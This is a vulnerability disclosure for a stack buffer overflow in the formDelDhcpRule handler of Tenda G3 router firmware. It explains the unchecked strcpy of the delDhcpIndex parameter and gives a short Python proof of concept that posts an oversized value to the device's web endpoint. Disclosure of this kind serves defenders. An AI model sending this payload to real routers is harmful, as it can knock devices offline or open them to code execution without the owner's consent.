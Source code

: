 # Tenda G3 formDelDhcpRule
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formDelDhcpRule function.
### Vulnerability details
Stack-based buffer overflow in function formDelDhcpRule on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formDelDhcpRule line 15, it reads in a user-provided parameter, and the variable delDhcpIndex is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formDelDhcpRule-1.png)
![](images/formDelDhcpRule-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/delDhcpRule'
payload = {
    "delDhcpIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

